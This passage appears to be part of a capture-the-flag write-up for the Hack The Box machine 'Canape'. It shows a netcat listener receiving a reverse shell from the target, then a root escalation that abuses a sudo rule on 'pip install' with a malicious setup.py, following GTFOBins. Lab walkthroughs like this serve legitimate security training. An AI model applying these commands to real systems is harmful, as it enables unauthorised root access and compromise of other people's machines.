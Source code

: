 ```
┌──(Hades㉿10.10.14.6)-[1.0:39.5]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.70] 43496
sh: 0: can't access tty; job control turned off
$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
```

### Sudo Pip Command

```
homer@canape:~$ sudo -l
[sudo] password for homer: 
<snip>

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

Server allow execute `/usr/bin/pip install *` as root without require password. Based on [GTFOBins/pip](https://gtfobins.github.io/gtfobins/pip/#shell), I create a root shell.

```
homer@canape:~$ TF=$(mktemp -d)                                                                                                                      
homer@canape:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py                                      
homer@canape:~$ sudo /usr/bin/pip install $TF                                                                                                        
<snip>                                                         
Processing /tmp/tmp.vuft5MuGm7                                                                                                                       
# id
uid=0(root) gid=0(root) groups=0(root)
```